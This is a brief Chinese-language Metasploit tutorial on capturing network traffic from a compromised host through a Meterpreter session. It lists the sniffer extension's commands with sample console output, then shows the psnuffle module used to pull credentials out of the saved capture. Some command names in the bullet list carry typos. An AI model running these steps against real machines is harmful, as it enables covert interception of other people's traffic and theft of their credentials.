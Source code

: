 ## 数据包捕获

抓包：

* 加载 sniffer :  `load sniffer`
* 查看网卡信息 ：  `sniffer_interface`
* 开启监听 :  `sniffer_start1`
* 导出数据包  :  `sniffer_dump 1.1cap`

解包：

* `auxiliary/sniffer/psnuffle`


```
meterpreter > load sniffer 
Loading extension sniffer...Success.
meterpreter > help
```

```
meterpreter > sniffer_interfaces 

1 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
2 - 'Intel(R) PRO/1000 MT Network Connection' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )


meterpreter > sniffer_start 2
[*] Capture started on interface 2 (50000 packet buffer)
meterpreter > sniffer_dump 2 2.cap
[*] Flushing packet capture buffer for interface 2...
[*] Flushed 5677 packets (3708568 bytes)
[*] Downloaded 014% (524288/3708568)...
[*] Downloaded 028% (1048576/3708568)...
[*] Downloaded 042% (1572864/3708568)...
[*] Downloaded 056% (2097152/3708568)...
[*] Downloaded 070% (2621440/3708568)...
[*] Downloaded 084% (3145728/3708568)...
[*] Downloaded 098% (3670016/3708568)...
[*] Downloaded 100% (3708568/3708568)...
[*] Download completed, converting to PCAP...
[*] PCAP file written to 2.cap

```

抓取下的包可用wireshark打开。

也可以加载相应模块解包。

```
msf5 auxiliary(sniffer/psnuffle) > set PCAPFILE /root/msf/2.cap
PCAPFILE => /root/msf/2.cap
msf5 auxiliary(sniffer/psnuffle) > run

```
